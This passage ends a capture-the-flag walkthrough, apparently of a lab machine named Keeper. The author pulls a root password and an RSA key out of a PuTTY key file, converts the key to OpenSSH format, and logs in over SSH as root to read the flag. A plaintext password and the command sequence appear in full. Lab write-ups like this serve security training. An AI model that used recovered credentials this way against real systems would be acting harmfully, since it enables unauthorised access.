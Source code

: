 ```
       Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
Icon#: 3
Creat: 2023-05-19 08:36:50
Modif: 2023-05-24 10:48:21
Xpire: Never
```
I get a password and an RSA key. Let's try the password:
```
$ssh root@10.129.103.106
root@10.129.103.106's password: F4><3K0nd! 
Permission denied, please try again.
```
It does not work. Let's try with the key. I put it in a file named `id_rsa.ppk`:
```
$ssh -i id_rsa.ppk root@10.129.103.106
Load key "id_rsa.ppk": invalid format
```
It seems the PPK format (Putty private key) is not supported. We need to convert it to OpenSSH format:
```
$puttygen id_rsa.ppk -O private-openssh -o id_rsa.ssh
puttygen: error loading `id_rsa.ppk': PuTTY key format too new
```
Whaaaaat?! It seems I can't convert it with puttygen! I have tried using puttygen.exe using Wine and it seems that I can convert it with it:
```
$cat id_rsa.ssh 
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAp1arHv4TLMBgUULD7AvxMMsSb3PFqbpfw/K4gmVd9GW3xBdP
[...SNIP...]
BE5xsjTZIzI66HH5sX5L7ie7JhBTIO2csFuwgVihqM4M+u7Ss/SL
-----END RSA PRIVATE KEY-----
```
Let's use it now:
```
$ssh -i id_rsa.ssh root@10.129.103.106
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa.ssh' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa.ssh": bad permissions
root@10.129.103.106's password: 

$chmod 600 id_rsa.ssh 
$ssh -i id_rsa.ssh root@10.129.103.106
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Mon Sep 25 19:27:38 2023 from 10.10.14.93
root@keeper:~# cat root.txt
b[...SNIP...]4
```
It works after changing the permissions of the file because ssh refuses to read private key file that have read permissions by other users.
## Learning from other writeups